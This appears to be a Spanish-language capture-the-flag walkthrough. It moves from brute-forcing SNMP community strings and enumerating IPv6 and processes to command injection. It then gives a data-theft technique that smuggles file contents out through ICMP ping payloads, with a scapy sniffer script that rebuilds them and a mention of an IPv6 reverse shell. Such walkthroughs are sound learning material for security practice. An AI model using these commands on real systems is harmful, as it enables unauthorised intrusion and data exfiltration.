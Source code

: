 -  No se encuentra vector de ataque por escaneo de *TCP PORT*
- Escanar por udp ``nmap -sU --top-ports 500 -v -n $port -oN $outfile``
- Puerto 161 por udp *find*, servicio *snmp*
- Utilizar **onesixtyone** para bruteforcear por el comunity string ``onesixtyone $ip -c $wordlist``
- Enumeramos informacion del equipo con **snmpwalk** ya habiendo conocido la community string ``snmpwalk -v2c -c public $ip``
- Enumerar la IPV6 de la maquina ``snmpwalk -v2c -c public $ip ipAddressType``
- Reorganizamos la IPV6 encontrada en cuartetos(*los '0' que estan a la izquierda se pueden eliminar*)
- Escaneo de nmap con agregando el parametro ``-6``
- RECOMENDACION: Colocar el IPV6 encontrada en el /etc/hosts para ahorrar el escribir toda la dirección
- Enumerar procesos del sistema ``snmpwalk -v2c -c public $ip hrSWRunName | grep "python"``
- Enumerar el proceso de python ``snmpwalk -vc2 -c public $ip hrSWRuntable | grep "5681" ``
- Probar credenciales en los dos paneles de login encontrados
- Command execution injection
- **TRUCO PARA ROBAR INFORMACION POR PING CON IPV6**:  ``xxd -p -c 4 $archivo | while read line; do ping -c 1 -p $line 127.0.0.1; done`` 
- Recibir el paquete a través de tcpdump ``tcpdump -i lo -w captura.cap -n -v``
- Jugar con python (libreria scapy.all) 
 ```python
#!/bin/python3

from scapy.all import *
import signal

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...")
	sys.exit(1)

def data_parser(packet):
	if packet.haslayer(ICMP):
		if packet[ICMP].type == 8:
			data = packet[ICMP].load[-4:].decode('utf-8')
			print(data, flush=True, end='')
	
#ctrl + c
signal.signal(signal.SIGINT, def_handler)

if __name__ == "__main__":

	sniff(iface='tun0', prn=data_parser)
```
- EXTRA: se puede establecer una reverse shell por IPV6 con python
- 